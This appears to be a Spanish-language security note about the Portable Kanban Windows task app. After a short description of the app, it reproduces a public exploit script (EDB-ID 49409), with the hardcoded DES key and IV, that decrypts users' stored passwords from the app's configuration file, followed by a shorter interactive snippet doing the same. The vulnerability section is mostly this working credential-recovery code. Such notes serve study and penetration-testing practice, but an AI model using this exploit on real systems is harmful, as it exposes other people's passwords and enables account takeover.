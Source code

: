 Portable Kanban es una aplicación nativa de Windows completamente gratuita y portátil que utilizo a diario para administrar mis tareas personales relacionadas con el trabajo.

Lo que me gusta de ella:

Funciona sin conexión
Respuesta instantánea: no es necesario esperar a que se cargue una página
Muy personalizable: puede organizar categorías, agregar campos personalizados, etc.

** Vulnerabilidades **

* Exploit PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval (https://sploitus.com/exploit?id=EDB-ID:49409)

	Vulnerabilidad de desencriptar clave cifrada que se encuentra normalmente en el fichero Portablekanban.cfg. La clave se encuentra en: DBEncPassword:hash.
	
	Exploit para desencriptar la clave:
	
``` python
## https://sploitus.com/exploit?id=EDB-ID:49409 
# Exploit Title: PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval 
# Date: 9 Jan 2021 
# Exploit Author: rootabeta 
# Vendor Homepage: The original page, https://dmitryivanov.net/, cannot be found at this time of writing. The vulnerable software can be downloaded from https://www.softpedia.com/get/Office-tools/Diary-Organizers-Calendar/Portable-Kanban.shtml 
# Software Link: https://www.softpedia.com/get/Office-tools/Diary-Organizers-Calendar/Portable-Kanban.shtml 
# Version: Tested on: 4.3.6578.38136. All versions that use the similar file format are likely vulnerable. 
# Tested on: Windows 10 x64. Exploit likely works on all OSs that PBK runs on. # PortableKanBan stores credentials in an encrypted format 
# Reverse engineering the executable allows an attacker to extract credentials from local storage # Provide this program with the path to a valid PortableKanban.pk3 file and it will extract the decoded credentials 

import json 
import base64 
from des import * #python3 -m pip install des 
import sys 

try: 
	path = sys.argv[1] 
except: 
	exit("Supply path to PortableKanban.pk3 as argv1") 

def decode(hash): 
	hash = base64.b64decode(hash.encode('utf-8')) 
	key = DesKey(b"7ly6UznJ") 
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8') 

with open(path) as f: 
	try: 
		data = json.load(f) 
	except: #Start of file sometimes contains junk - this automatically seeks valid JSON 
		broken = True 
		i = 1 
		while broken: 
			f.seek(i,0) 
			try: 
				data = json.load(f) 
				broken = False 
			except: 
				i+= 1 

	for user in data["Users"]: 
		print("{}:{}".format(user["Name"],decode(user["EncryptedPassword"])))
```

Otra forma de desencriptar la clave es utilizar una pseudoconsola de python:
`import json`
`import base64`
`import sys`
`hash = base64.b64decode("<hash>".encode('utf-8'))`
`key = DesKey(b"7ly6UznJ")`
`print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))`



* 